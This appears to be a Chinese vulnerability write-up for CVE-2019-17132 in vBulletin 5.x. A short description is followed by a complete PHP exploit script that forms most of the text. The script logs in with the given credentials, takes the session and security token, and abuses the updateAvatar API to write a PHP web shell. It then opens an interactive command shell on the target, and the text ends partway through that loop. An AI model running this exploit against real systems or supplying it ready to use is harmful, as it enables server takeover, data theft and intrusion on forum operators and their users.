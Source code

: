 （CVE-2019-17132）vBulletin 5.0 \<5.5.4-\'updateAvatar\'身份验证的远程代码执行漏洞
==================================================================================

一、漏洞简介
------------

用户输入更新头像的的时候，前未正确验证提交的"数据\[扩展\]"和"数据\[文件数据\]"参数就发送到了"
ajax / api / user / updateavatar"，导致此突破的产生

利用此突破可以插入和执行任意php代码。

成功利用此突破需要"将头像另存为Files（头像保存为文件）"选项要启用（可选情况下少量）。

二、漏洞影响
------------

三、复现过程
------------

    <?php

    /*
        ---------------------------------------------------------------------
        vBulletin <= 5.5.4 (updateAvatar) 远程代码执行漏洞
        ---------------------------------------------------------------------

    */

    set_time_limit(0);
    error_reporting(E_ERROR);

    if (!extension_loaded("curl")) die("[-] cURL extension required!\n");

    print "+-------------------------------------------------------------------------+";
    print "\n| vBulletin <= 5.5.4 (updateAvatar) Remote Code Execution Exploit by EgiX |";
    print "\n+-------------------------------------------------------------------------+\n";

    if ($argc != 4)
    {
            print "\nUsage......: php $argv[0] <URL> <Username> <Password>\n";
            print "\nExample....: php $argv[0] http://localhost/vb/ user passwd";
            print "\nExample....: php $argv[0] [url]https://vbulletin.com/[/url] evil hacker\n\n";
            die();
    }

    list($url, $user, $pass) = [$argv[1], $argv[2], $argv[3]];

    $ch = curl_init();

    curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, false);
    curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
    curl_setopt($ch, CURLOPT_HEADER, true);

    print "\n[-] Logging in with username '{$user}' and password '{$pass}'\n";

    curl_setopt($ch, CURLOPT_URL, $url);

    if (!preg_match("/Cookie: .*sessionhash=[^;]+/", curl_exec($ch), $sid)) die("[-] Session ID not found!\n");

    curl_setopt($ch, CURLOPT_URL, "{$url}?routestring=auth/login");
    curl_setopt($ch, CURLOPT_HTTPHEADER, $sid);
    curl_setopt($ch, CURLOPT_POSTFIELDS, "username={$user}&password={$pass}");

    if (!preg_match("/Cookie: .*sessionhash=[^;]+/", curl_exec($ch), $sid)) die("[-] Login failed!\n");

    print "[-] Logged-in! Retrieving security token...\n";

    curl_setopt($ch, CURLOPT_URL, $url);
    curl_setopt($ch, CURLOPT_POST, false);
    curl_setopt($ch, CURLOPT_HTTPHEADER, $sid);

    if (!preg_match('/token": "([^"]+)"/', curl_exec($ch), $token)) die("[-] Security token not found!\n");

    print "[-] Uploading new avatar...\n";

    $params = ["profilePhotoFile" => new CURLFile("avatar.jpeg"), "securitytoken" => $token[1]];

    curl_setopt($ch, CURLOPT_URL, "{$url}?routestring=profile/upload-profilepicture");
    curl_setopt($ch, CURLOPT_POSTFIELDS, $params);
    curl_setopt($ch, CURLOPT_HEADER, false);

    if (($path = (json_decode(curl_exec($ch)))->avatarpath) == null) die("[-] Upload failed!\n");

    if (preg_match('/image\.php\?/', $path)) die("[-] Sorry, the 'Save Avatars as Files' option is disabled!\n");

    print "[-] Updating avatar with PHP shell...\n";

    $php_code = '<?php print("____"); passthru(base64_decode($_SERVER["HTTP_CMD"])); ?>';

    $params = ["routestring" => "ajax/api/user/updateAvatar",
               "userid" => 0,
               "avatarid" => 0,
               "data[extension]" => "php",
               "data[filedata]" => $php_code,
               "securitytoken" => $token[1]];

    curl_setopt($ch, CURLOPT_URL, $url);
    curl_setopt($ch, CURLOPT_POSTFIELDS, http_build_query($params));

    if (curl_exec($ch) !== "true") die("[-] Update failed!\n");

    print "[-] 上传shell中...\n";

    preg_match('/(\d+)\.jpeg/', $path, $m);
    $path = preg_replace('/(\d+)\.jpeg/', ($m[1]+1).".php", $path);

    curl_setopt($ch, CURLOPT_URL, "{$url}core/{$path}");
    curl_setopt($ch, CURLOPT_POST, false);

    while(1)
    {
        print "\nvb-shell# ";
        if (($cmd = trim(fgets(STDIN))) == "exit") break;
        curl_setopt($ch, CURLOPT_HTTPHEADER, ["CMD: ".base64_encode($cmd)]);
        preg_match('/____(.*)/s', curl_exec($ch), $m) ? print $m[1] : die("\n[-] Exploit failed!\n");
